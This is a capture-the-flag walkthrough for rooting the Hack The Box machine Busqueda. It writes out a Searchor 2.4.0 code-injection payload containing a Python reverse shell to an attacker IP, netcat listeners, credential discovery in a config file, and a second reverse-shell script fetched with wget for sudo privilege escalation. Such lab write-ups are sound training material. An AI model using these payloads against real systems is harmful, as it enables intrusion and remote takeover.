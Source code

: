 ## Busqueda Writeup -- HackTheBox ##
  
**This is a walkthrough to get root access on a Linux machine called Busqueda from Hack The Box**


• Add the IP address of the machine from Hack the Box website to your hosts file 

**sudo gedit /etc/hosts**

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/dee050f3-0dc5-41de-8e11-6f334472570f)


• Next step is to doing scanning for open ports and for service version using nmap and the command: **nmap -sV -A -T4 10.10.11.208**


![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/ee5d7dd3-5546-4e8e-ad6d-37ca2851bc2a)

• as we noticed that two  ports (80, 22) are open, let's try to open the IP on the browser

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/5bea92a6-0c2c-41e4-99cb-57ffc6bf5013)

• it is noticed at the bottom of the web page a version Searchor 2.4.0, let's try to find the exploit for it 


after searching on Google, it is found that the URL: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit- have the exploit code to receive an initial shell 


• put the exploit on the filed   


', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.144',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/c6a5eca0-9522-4ef1-a94b-590f602d7429)


• on the same time open a listener using netcat with the command  nc -nlvp 1234,  press the search button and the initial shell will be as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/4fd8f83d-e17d-4a62-aff6-aae9fc2d76a5)

• to obtain the first flag, go to home directory and display the content of the user.txt and you will get the first flag as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/52e3fe7b-48be-4a72-9a08-ebf414e7b0c0)

• after enumeration, go through the folder  **cd /var/www/app**, display the content of the file config  **cat config** and the password for accessing  the server with SSH is showing 
 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/3b23308f-bc77-49b6-950c-17d4573e391c)

• connect to the web server with SSH to get an interactive and stable shell 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/07ace5e3-0083-427b-8172-68e678f3733a)

• enumeration to get a root shell, and try to get a code from Google to get the high privilege, with the help of this 
URL:  https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/   


• the code:  import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")


• after putting the code in a Python file with the name **full-checkup.sh** and opening a Python server to send the file from my local machine to the web server with the command 


• └─$ **python -m http.server 80**, and on our shell use the command **wget://10.10.14.144:80/full-checkup.sh** to receive the file 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/69027e08-1198-4a29-b358-4fc605b0eb21)

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/90860dd7-6e1c-4fe7-af41-37f64533edbc)

• after receiving the file change the mod by command **chmod +x full-checkup.sh** 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/a9bf3e06-475a-4c16-98a4-a6be25f2e09d)

• open a listener to listen on port 4444 with netcat  nc -nlvp 4444 

• run the following command to receive the root shell 

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/f218f1be-171d-4b0f-aa55-a5ca58307e2f)

• we get the root flag and root access on the machine 










